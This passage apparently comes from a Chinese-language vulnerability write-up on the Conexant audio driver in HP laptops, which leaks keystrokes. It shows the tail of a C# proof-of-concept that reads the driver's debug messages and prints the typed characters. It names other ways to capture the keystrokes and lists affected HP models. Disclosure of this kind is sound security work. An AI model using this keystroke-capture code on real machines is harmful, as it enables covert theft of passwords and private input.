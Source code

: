 ```
            `}`
        `}`
        // version 1.0.0.31
        private static void OnOutputDebugString_v31(
            int pid, 
            string text)
        `{`
            char sep = ' ';
            string[] items = text.Split(sep);
            if (items[0].Equals("Mic"))
            `{`
                int c_int = Convert.ToInt32(items[10], 16);
                if (c_int == 0xd)
                `{`
                    Console.WriteLine();
                `}`
                else if(Convert.ToInt32(items[6], 16) == 0x00)
                    Console.Write("`{`0`}`", (char)(c_int &amp; 0xff));
            `}`
        `}`
    `}`
`}`
```

任何框架提供了一个API ReadFile()或Microsoft的MapViewOfFile()都可以捕捉Conexant音频驱动程序获取的键盘输入信息。通过使用Microsoft Windows Sysinternals Debugview，如果敏感内容没有写入文件，也可以轻松地获取键盘输入信息。

<br>

**受该漏洞影响的产品**

**硬件产品型号**



```
HP EliteBook 820 G3 Notebook PC
HP EliteBook 828 G3 Notebook PC
HP EliteBook 840 G3 Notebook PC
HP EliteBook 848 G3 Notebook PC
HP EliteBook 850 G3 Notebook PC
HP ProBook 640 G2 Notebook PC
HP ProBook 650 G2 Notebook PC
HP ProBook 645 G2 Notebook PC
HP ProBook 655 G2 Notebook PC
HP ProBook 450 G3 Notebook PC
HP ProBook 430 G3 Notebook PC
HP ProBook 440 G3 Notebook PC
HP ProBook 446 G3 Notebook PC
HP ProBook 470 G3 Notebook PC
HP ProBook 455 G3 Notebook PC
HP EliteBook 725 G3 Notebook PC
HP EliteBook 745 G3 Notebook PC
HP EliteBook 755 G3 Notebook PC
HP EliteBook 1030 G1 Notebook PC
HP ZBook 15u G3 Mobile Workstation
HP Elite x2 1012 G1 Tablet
HP Elite x2 1012 G1 with Travel Keyboard
HP Elite x2 1012 G1 Advanced Keyboard
HP EliteBook Folio 1040 G3 Notebook PC
HP ZBook 17 G3 Mobile Workstation
HP ZBook 15 G3 Mobile Workstation
HP ZBook Studio G3 Mobile Workstation
HP EliteBook Folio G1 Notebook PC
```
